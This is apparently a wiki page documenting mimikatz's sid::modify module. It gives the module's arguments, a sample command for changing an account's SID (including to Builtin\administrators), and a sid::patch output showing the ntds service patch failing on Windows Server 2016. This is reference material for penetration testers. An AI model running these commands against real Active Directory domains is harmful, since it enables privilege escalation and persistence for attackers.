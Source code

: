 # modify

This module can be used to modify an object's SID. It has the following command line argument:

* `/sam`: the `sAMAccountName`.
* `/new`: the new SID value. It also accepts format such as `Builtin\administrators`.

```text
mimikatz # sid::modify /sam:username /new:S-1-5-21-
```

![SID modification](../../../.gitbook/assets/sid_modify.jpg)

{% hint style="warning" %}
The process of SID modification and changes push must be run on the domain controller.
{% endhint %}

{% hint style="info" %}
The image above was borrowed from one of Benjamin's [tweet](https://twitter.com/gentilkiwi/status/728367477458145280?s=20) since while attempting to reproduce the same steps on a Windows 2016 domain controller, the following error was encountered.

```text
mimikatz # sid::patch
Patch 1/2: "ntds" service patched
Patch 2/2: ERROR kull_m_patch_genericProcessOrServiceFromBuild ; kull_m_patch (0x00000057)
```

[Dliv3](https://github.com/Dliv3) has [reported](https://github.com/gentilkiwi/mimikatz/issues/348) a similar situation on a Windows Server 2019.
{% endhint %}

